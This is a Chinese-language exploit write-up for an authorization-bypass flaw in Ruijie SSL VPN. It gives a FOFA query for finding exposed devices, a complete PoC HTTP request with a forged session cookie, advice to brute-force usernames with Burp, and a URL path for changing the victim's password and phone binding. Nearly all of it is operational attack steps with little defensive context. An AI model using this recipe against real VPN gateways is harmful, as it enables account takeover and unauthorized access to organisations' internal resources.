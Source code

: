 # 锐捷 SSL VPN 越权访问漏洞

## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

## 漏洞影响

```
Ruijie SSL VPN
```

## FOFA

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi



![](./images/202202110919224.png)

POC请求包如下

```plain
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```plain
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

![](./images/202202110920240.png)

用户名正确时会返回敏感信息

![](./images/202202110920291.png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](./images/202202110920639.png)

点击个人设置跳转页面即可修改账号信息

![](./images/202202110920944.png)

## 参考文章

https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973